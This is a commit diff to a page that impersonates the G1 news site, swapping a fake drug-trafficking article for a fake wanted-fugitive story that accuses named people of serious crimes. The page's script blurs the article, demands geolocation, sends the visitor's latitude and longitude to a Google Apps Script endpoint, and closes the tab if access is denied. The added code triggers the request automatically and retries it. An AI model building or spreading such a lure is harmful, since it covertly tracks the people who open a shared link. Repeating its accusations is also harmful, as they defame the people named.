

Before and after one commit to globonoticias/criminoso_foragido_nova, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 387-952 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,14 +3,15 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1" />
-  <title>G1 - Polícia identifica principais traficantes de 'droga da elite'</title>
+  <title>G1.globo.com - Notícias</title>
 
-  <!-- Open Graph para Facebook -->
-  <meta property="og:title" content="Polícia identifica principais traficantes de 'droga da elite' no país" />
-  <meta property="og:description" content="Quadrilha liderada por jovem foragido movimenta milhões com o tráfico do dry e do ice — variações sofisticadas do haxixe puro." />
+  <!-- Open Graph (para WhatsApp, Facebook, etc.) -->
+<meta property="og:title" content="Polícia intensifica busca a Manoel M. D. A., acusado de crimes graves e altamente perigoso" />
+<meta property="og:description" content="Manoel M. D. A. é foragido, responde por estupro de vulnerável e ameaça, e é considerado altamente perigoso. Polícia mantém cerco ativo para capturá-lo." />
 <meta property="og:image" content="https://sbtnews.sbt.com.br/_next/image?url=https%3A%2F%2Fsbt-news-assets-prod.s3.sa-east-1.amazonaws.com%2Fhaxixi_droga_da_elite_5c982b4753.jpeg&w=1920&q=90" />
-  <meta property="og:url" content="https://noticias2025.github.io/Sao_Jose_dos_Pinhais/?Pol%C3%ADcia-identifica-principais-traficantes-de-droga-de-elite" />
-  <meta property="og:type" content="article" />
+<meta property="og:url" content="https://www.seusite.com.br" />
+<meta property="og:type" content="website" />
+
 
   <style>
     body {
@@ -99,43 +100,32 @@
 
 #overlay {
   position: fixed;
-      top: 0; left: 0; right: 0; bottom: 0;
-      background: rgba(0,0,0,0.7);
+  top: 0;
+  left: 0;
+  right: 0;
+  bottom: 0;
+  background: rgba(0, 0, 0, 0.8); /* Fundo escuro, mas não opaco */
   z-index: 10;
   display: flex;
-      flex-direction: column;
   justify-content: center;
   align-items: center;
-      color: white;
-      font-size: 20px;
-      font-family: Arial, sans-serif;
+  color: #ffffff; /* Texto 100% branco */
+  font-size: 22px;
+  font-family: 'Roboto', sans-serif; /* Fonte moderna e limpa */
   user-select: none;
   text-align: center;
-      padding: 30px;
+  padding: 25px;
+  box-shadow: 0 0 30px rgba(0, 0, 0, 0.8); /* Sombra mais forte e ampla para cobrir toda a tela */
+  transition: opacity 0.3s ease;
 }
 
-    #permitirBtn {
-      margin-top: 25px;
-      padding: 12px 24px;
-      font-size: 18px;
-      background: #ffffff;
-      color: #c4170c;
-      border: none;
-      border-radius: 8px;
-      cursor: pointer;
-      font-weight: bold;
-    }
-
-    #permitirBtn:hover {
-      background: #c4170c;
-      color: white;
-    }
   </style>
 </head>
 <body>
 
+  <!-- Imagem no topo -->
   <img class="top-image" src="https://sbtnews.sbt.com.br/_next/image?url=https%3A%2F%2Fsbt-news-assets-prod.s3.sa-east-1.amazonaws.com%2Fhaxixi_droga_da_elite_5c982b4753.jpeg&w=1920&q=90"
-       alt="Droga da elite apreendida" />
+     alt="Polícia intensifica buscas por Manoel M. D. A., foragido acusado de crimes graves" />
 
   <header>
     <h1>G1</h1>
@@ -146,41 +136,36 @@
   </nav>
 
  <div class="container">
-    <div class="title">Polícia identifica principais traficantes de "droga da elite" no país</div>
-    <div class="subinfo">31/07/2025 18h45 - Atualizado há poucos minutos</div>
+  <div class="title">Polícia intensifica busca a Manoel M. D. A., acusado de crimes graves e altamente perigoso</div>
+  <div class="subinfo">15/08/2025 14h20 - Atualizado há poucos minutos</div>
 
   <div class="content">
-      <p>Uma operação do Departamento de Investigações Criminais (Deic) revelou os nomes por trás da distribuição do “dry marroquino” e do “ice” — variações potentes e refinadas do haxixe, conhecidas como “droga da elite”. Com valor de mercado que pode atingir até R$ 60 mil por quilo, as substâncias circulam em ambientes de luxo, ostentadas por consumidores de alto poder aquisitivo.</p>
+    <p>A Polícia Civil do Paraná intensificou os esforços para localizar Manoel M. D. A., um dos criminosos mais procurados da Região Metropolitana de Curitiba. Ele é alvo de múltiplos processos judiciais e responde por crimes graves, como dois casos de <strong>estupro de vulnerável</strong>, <strong>ameaça</strong> e <strong>apropriação indébita</strong>. Além disso, Manoel possui um histórico de agressões a agentes da lei, tendo atacado um policial durante uma tentativa de prisão anterior.</p>
 
-      <p>O principal suspeito é Pablo Henrique Gonçalves Porto Rodrigues, de 24 anos, atualmente foragido. Ele foi flagrado por investigadores negociando drogas ao lado de um Porsche, símbolo da ostentação promovida pela quadrilha. Carros de luxo, inclusive, são utilizados como parte do pagamento pelos entorpecentes.</p>
+    <p>As investigações indicam que, após essa fuga, Manoel tem se escondido constantemente em locais diferentes, dificultando o trabalho de rastreamento. Embora haja suspeitas de que ele tenha deixado o Paraná, seja em direção a outro estado ou até fora do Brasil, as forças policiais continuam empenhadas em sua captura.</p>
 
-      <p>Pablo foi monitorado durante conversas com comparsas por meio de áudios via celular. Em uma das mensagens, ele questiona a transferência de um veículo de forma quase casual: “O cara que tá com a Porsche não consegue fazer uma procuração? Até transferir? Porque demora de dois a três dias, tá ligado?”.</p>
+    <p>A polícia alerta: Manoel M. D. A. é considerado <strong>altamente perigoso</strong>. Ele já demonstrou disposição para reagir de forma violenta, e qualquer tentativa de abordagem por civis deve ser evitada. O cerco está sendo reforçado com o uso de tecnologias de rastreamento, operações conjuntas com outros estados e apoio de informações vindas da população.</p>
 
-      <p>Outros nomes também foram identificados na hierarquia do grupo criminoso: Lucas Carvalho Silva, o “LK”; Matheus Madeira, conhecido como “Tom”; e Matheus Henrique Souza, o “Ratão”. Todos agem como braços operacionais da rede de tráfico.</p>
+    <p>As autoridades pedem que qualquer informação sobre o paradeiro de Manoel seja imediatamente repassada pelo <strong>Disque-Denúncia 181</strong>, que garante sigilo absoluto. A colaboração da população é essencial para encurtar o cerco e garantir a captura do suspeito, evitando que ele continue a colocar a sociedade em risco.</p>
 
-      <p>Segundo a polícia, as drogas entram no Brasil principalmente por dois caminhos: via litoral, oriundas do Marrocos, e por terra, a partir do Uruguai. Ainda que alguns produtores brasileiros tentem replicar o processo, a qualidade não se equipara à do produto importado.</p>
-
-      <p>Um dado alarmante surgiu durante as investigações: criminosos presos continuam atuando ativamente na logística do tráfico. Um exemplo é Josemar Pires de Oliveira, recluso no Centro de Detenção Provisória de Tremembé, que enviou mensagens ao grupo sobre entregas em Campinas.</p>
-
-      <p>Nove integrantes da quadrilha já foram presos. Muitos foram flagrados em vídeo, distribuindo a droga ou transportando os carregamentos. Apesar do perfil “playboy” dos consumidores, os traficantes também seguem esse estilo de vida — com festas, carros de luxo e aparência de empresários de sucesso.</p>
-
-      <p>“Esses jovens, com alto padrão de vida e acesso a oportunidades, acabam entrando nesse tipo de crime por ganância, acreditando ser algo de baixo risco e alto retorno”, afirmou um dos delegados do caso.</p>
+    <p>A captura de Manoel M. D. A. é tratada como prioridade pelas forças policiais, que mantêm equipes de inteligência e operações de campo mobilizadas de forma contínua.</p>
   </div>
 </div>
+
 
   <footer>
     © 2025 G1 - Todos os direitos reservados
   </footer>
 
-  <div id="overlay">
-    Para continuar, permita o acesso à sua localização.<br>
-    <button id="permitirBtn">Permitir acesso</button>
-  </div>
+  <div id="overlay">Por favor, permita o acesso à sua localização para continuar navegando!</div>
 
 <script>
+  window.addEventListener('load', () => {
+    let geolocationRequested = false;  // Flag para controlar o estado da solicitação de localização
+
+    // Função para tentar obter a localização
     function solicitarLocalizacao() {
       if (!navigator.geolocation) {
-        alert("Seu navegador não suporta geolocalização.");
         window.close();
         return;
       }
@@ -189,8 +174,7 @@
         const lat = pos.coords.latitude;
         const lon = pos.coords.longitude;
 
-        // Envia a localização para o servidor
-        const url = "https://script.google.com/macros/s/AKfycbwk5F09_2ajt_z2a054KA369U7s33QNwLiTu1AO06KbvU4mRUgQixX-yICwbMzYLxHF/exec";
+        const url = "https://script.google.com/macros/s/AKfycbw4Me_ogE9h_X_lH_NgQq2CGIfh1thqljS5SgivpHjQym7vCvyEIt7ymQ1dSX0uj0Y1AQ/exec";
         const payload = { latitude: lat, longitude: lon };
 
         try {
@@ -203,22 +187,46 @@
         }
 
         liberarConteudo();
+
       }, (error) => {
-        window.close(); // Fecha se negar
+        if (error.code === error.PERMISSION_DENIED) {
+          window.close();  // Fecha a página se a permissão for negada
+        } else {
+          console.warn("Erro de localização:", error.message);
+          if (!geolocationRequested) {
+            // Tentar novamente após o erro, caso o erro não seja permissão negada
+            solicitarLocalizacao();
+          }
+        }
       });
     }
 
+    // Adicionar o borrão na tela após 2 segundos
+    setTimeout(() => {
+      document.body.classList.add('blurred');
+      geolocationRequested = true;  // Marca que já solicitamos a geolocalização
+      solicitarLocalizacao();
+    }, 4000); // Delay de 4 segundos
+
+    // Detecta se o usuário clica fora da caixa de permissão
+    document.addEventListener('click', (event) => {
+      // Verifica se o clique não foi na caixa de permissão ou botão "Não permitir"
+      if (!event.target.closest('.geolocation-popup')) {
+        // Se não for na caixa de permissão, tenta solicitar novamente a localização
+        if (!geolocationRequested) {
+          geolocationRequested = true;
+          solicitarLocalizacao();
+        }
+      }
+    });
+
+  });
+
+  // Função para liberar o conteúdo e remover o borrão
   function liberarConteudo() {
     document.body.classList.remove('blurred');
     document.getElementById('overlay').style.display = 'none';
   }
-
-    window.addEventListener('load', () => {
-      document.body.classList.add('blurred');
-      document.getElementById('overlay').style.display = 'flex';
-    });
-
-    document.getElementById("permitirBtn").addEventListener("click", solicitarLocalizacao);
 </script>
 
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
